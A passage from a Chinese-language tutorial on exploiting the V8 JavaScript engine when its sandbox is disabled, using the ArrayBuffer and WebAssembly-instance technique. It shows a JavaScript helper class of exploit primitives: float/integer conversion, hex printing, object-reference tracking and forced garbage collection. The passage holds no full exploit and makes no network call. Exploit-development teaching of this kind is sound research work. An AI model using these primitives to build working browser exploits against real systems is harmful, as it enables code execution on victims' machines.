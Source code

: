 ### 常规方法 - ArrayBuffer + WasmInstance

正如之前所说的，在没开启沙箱的情况下 ArrayBuffer 位于 v8 堆之外的单独内存区域，因此在调用时也保留了完整的 64 位地址，因此也可以继续使用上一道例题的思路完成利用：

```javascript
class Helpers {
  constructor() {
    this.buf = new ArrayBuffer(8);
    this.f64 = new Float64Array(this.buf);
    this.f32 = new Float32Array(this.buf);
    this.u32 = new Uint32Array(this.buf);
    this.u64 = new BigUint64Array(this.buf);
    this.state = {};
  }

  ftoil(f) {
    this.f64[0] = f;
    return this.u32[0];
  }

  ftoih(f) {
    this.f64[0] = f;
    return this.u32[1];
  }

  itof(i) {
    this.u32[0] = i;
    return this.f32[0];
  }

  f64toi64(f) {
    this.f64[0] = f;
    return this.u64[0];
  }

  i64tof64(i) {
    this.u64[0] = i;
    return this.f64[0];
  }

  clean() {
    this.state.fake_object.fill(0);
  }

  hex(x) {
    return x.toString(16).padStart(16, "0");
  }

  printhex(val) {
    console.log("0x" + val.toString(16));
  }

  add_ref(object) {
    this.state[this.i++] = object;
  }

  gc() {
    new ArrayBuffer(0x7fe00000);
    new ArrayBuffer(0x7fe00000);
    new ArrayBuffer(0x7fe00000);
    new ArrayBuffer(0x7fe00000);
    new ArrayBuffer(0x7fe00000);
  }
}
```